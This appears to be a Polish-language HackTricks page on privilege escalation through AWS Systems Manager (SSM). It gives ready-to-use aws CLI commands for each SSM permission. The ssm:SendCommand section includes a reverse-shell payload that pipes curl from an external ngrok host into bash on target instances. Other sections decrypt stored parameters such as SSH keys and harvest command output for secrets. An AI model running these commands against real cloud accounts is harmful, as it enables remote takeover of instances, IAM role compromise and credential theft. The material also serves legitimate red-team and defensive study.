 # AWS - SSM Privesc

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## SSM

Aby uzyskać więcej informacji na temat SSM, sprawdź:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Atakujący posiadający uprawnienie **`ssm:SendCommand`** może **wykonywać polecenia w instancjach**, w których działa agent Amazon SSM, i **zagrozić IAM Role** działającą wewnątrz niego.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potencjalne skutki:** Bezpośrednie podniesienie uprawnień do ról IAM EC2 przypisanych do uruchomionych instancji z działającymi agentami SSM.

### `ssm:StartSession`

Atakujący posiadający uprawnienie **`ssm:StartSession`** może **rozpocząć sesję przypominającą SSH na instancjach**, na których działa agent Amazon SSM, i **skompromitować uruchomioną wewnątrz niego rolę IAM**.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Aby rozpocząć sesję, musisz zainstalować wtyczkę **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potencjalne zagrożenie:** Bezpośrednie podniesienie uprawnień do ról EC2 IAM przypisanych do uruchomionych instancji z działającymi agentami SSM.

#### Podniesienie uprawnień do ECS

Kiedy **zadania ECS** są uruchamiane z włączoną opcją **`ExecuteCommand`**, użytkownicy posiadający wystarczające uprawnienia mogą użyć `ecs execute-command`, aby **wykonać polecenie** wewnątrz kontenera.\
Zgodnie z [**dokumentacją**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), jest to realizowane poprzez utworzenie bezpiecznego kanału między urządzeniem, z którego inicjujesz polecenie „_exec_“, a docelowym kontenerem z SSM Session Manager.\
Dlatego użytkownicy posiadający `ssm:StartSession` będą mogli **uzyskać dostęp do powłoki wewnątrz zadań ECS** z włączoną tą opcją, wykonując po prostu:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (55).png>)

**Potencjalne skutki:** Bezpośrednie podniesienie uprawnień do ról `ECS`IAM przypisanych do uruchomionych zadań z włączoną opcją `ExecuteCommand`.

### `ssm:ResumeSession`

Atakujący posiadający uprawnienia **`ssm:ResumeSession`** może **ponownie uruchomić sesję SSH** na instancjach działających z agentem Amazon SSM w **rozłączonym** stanie sesji SSM i **skompromitować rolę IAM** działającą wewnątrz niej.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potencjalne skutki:** Bezpośrednie podniesienie uprawnień do ról IAM EC2 przypisanych do uruchomionych instancji z działającymi agentami SSM i rozłączonymi sesjami.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Atakujący posiadający wymienione uprawnienia będzie w stanie wyświetlić **parametry SSM** i **odczytać je w postaci tekstu jawnego**. W tych parametrach często można **znaleźć wrażliwe informacje**, takie jak klucze SSH lub klucze API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potencjalne zagrożenie:** Znalezienie wrażliwych informacji wewnątrz parametrów.

### `ssm:ListCommands`

Atakujący posiadający to uprawnienie może wyświetlić wszystkie **komendy** wysłane i miejmy nadzieję znaleźć na nich **wrażliwe informacje**.
```
aws ssm list-commands
```
**Potencjalne zagrożenie:** Znalezienie wrażliwych informacji w wierszach poleceń.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Atakujący posiadający te uprawnienia może wyświetlić listę wszystkich wysłanych **poleceń** oraz **odczytać generowane wyniki**, co pozwala na znalezienie wrażliwych informacji.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potencjalne skutki:** Znalezienie wrażliwych informacji w wynikach poleceń.

### Codebuild

Możesz również użyć SSM, aby uzyskać dostęp do projektu codebuild, który jest budowany:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
